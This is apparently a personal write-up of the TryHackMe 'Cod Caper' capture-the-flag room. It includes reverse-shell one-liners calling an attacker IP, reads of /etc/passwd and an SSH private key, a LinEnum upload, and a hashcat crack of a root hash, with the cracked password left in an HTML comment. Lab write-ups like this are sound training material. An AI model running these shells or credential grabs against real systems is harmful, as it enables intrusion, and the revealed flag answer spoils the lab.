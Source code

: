 ```yaml
---
title: THM The Cod Caper
date: 2021-01-13 22:50:00 +0000
categories: [Security, TryHackMe]
tags: [thm, codcapper, writeup]     # TAG names should always be lowercase
---
```


## Task 5
> Command Execution
We got access to a web page where we can run some linux command and receive the result directly in our webpage.
Try basic stuf like pwd or ls give us some result.
```console
ls -l | wc -l
```
to have the number of files inside current directory.

Checking /etc/passwd we found a user named pingu.

Did not succeed to have a stable shell with netcat
```console
nc -e /bin/sh <ip> <port>
```
or even more complicated with something like 
```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f)
```
Success to have a reverse shell with
```console
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

```console
find / -user pingu
```
we found the path to the ssh rsa key (cat /home/pingu/.ssh/id_rsa)
Did not succeed to hack the RSA passphrase

After some research inside the box, we found an interresting folder in ``` /var ```. Password of pingu is inside.

## Task 6
> LinEnum
Choose a metod to send LinEnum.sh file into the target system (SCP or setup a simpleHTTPServer inside your own attack machine).
Then, upgrade the permission with ``` chmod +x LinEnum.sh ``` and then execute ``` LinEnum.sh ``` and, as specified inside the room, check the SUID files analysis result. You will easily found the requested one.

Try to execute this file without success. It seems that the file is waiting for an entry. Let's continue the room.

## Task 7
> pwndbg
Nothing to do, just follow the room description and do it to understand

## Task 8
> Binary-Exploitation: Manually
Nothing to do, just follow the room description and do it to understand

## Task 9
> Binary-Exploitation: The pwntools way
Nothing to do, just follow the room description and do it to understand

## Task 10
> Finishing the job
```console
hashcat -a 0 -m 1800 root.hash /usr/share/wordlists/rockyou.txt
```
We have quickly an answer (less than 10min on my machine):
```console
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:l*******h
```
<!-- $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:love2fish -->

